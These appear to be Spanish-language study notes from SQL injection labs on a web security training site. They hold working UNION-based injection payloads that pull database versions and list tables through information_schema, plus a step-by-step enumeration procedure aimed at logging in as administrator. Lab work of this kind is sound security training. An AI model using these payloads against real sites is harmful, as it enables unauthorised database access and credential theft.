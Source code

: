 ```
https://Personalid.web-security-academy.net/filter?category=Accessories'UNION SELECT NULL,BANNER FROM v$version--
```
### Laboratorio version de mysql
```
https://*****.web-security-academy.net/filter?category=Pets' UNION SELECT NULL,@@version-- dsad

Se mamo era por el espacio despues del comentario, intente el # pero no funciono, tener en cuenta como se hacen los comentarios segun la base de datos

Segun la solucion era con el #
ademas en lugar del espacio ponen el +
```

### Listar contenido de la base de datos
Dice que la mayoria de las bases de datos tienen vistas para llamar la información del esquema que provee la información de la base de datos, todas excepto oracle y segun mi investigación db2 debes tener en cuenta la versión ya que hay una consulta en stackoverflow que es gigante a comparación de las otras   
Para listar esquema de manera general esta el siguiente comando:
```
SELECT * FROM information_schema.tables

La salida es/son todas las tablas
```

Una vez que obtienes la información de las tablas, puedes obtener la información de las columnas:
```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
### Laboratorio contenido de la base de datos
Procedimiento
- Encontrar donde es inyectable - SI
- Identificar la candidad de campos  - 2
- Identificar el tipo de camps  - VARCHAR
- Identificar base de datos
- Identificar tablas - si pero sus comandos no funcionaron
- Identificar columnas - si pero sus comandos no funcionaron
- Realizar la consulta de los usuarios  - 
- Loguearse xomo administrador
```
PASO 1 IDENTIFICAR EL PARAMENTRO VULNERABLE // ES EL MISMO DEL FILTRO

'UNION SELECT NULL,version()--  //Es postgresql

PASO 2 IDENTIFICAR EL NUMERO DE CAMPOS 

'UNION SELECT NULL,NULL--  //SON LOS 2 DE SIEMPRE

PASO 3 INDEITIFICAR QUE TIPO DE DATOS SON LOS CAMPOS // VARCHAR

'UNION SELECT NULL,'A'--  
'UNION SELECT 'A',NULL--  
'UNION SELECT 'A','A'--  

PASO 4 IDENTIFICAR LAS TABLAS

'UNION SELECT table_name,NULL FROM information_schema.tables-- //FUNCIONA PERO LISTA TABLAS DEL SISTEMA 

'UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public' AND table_type='BASE TABLE'-- // ESTE FILTRA Y PONE SOLO LAS TABLAS CREADAS POR EL USUARIO

```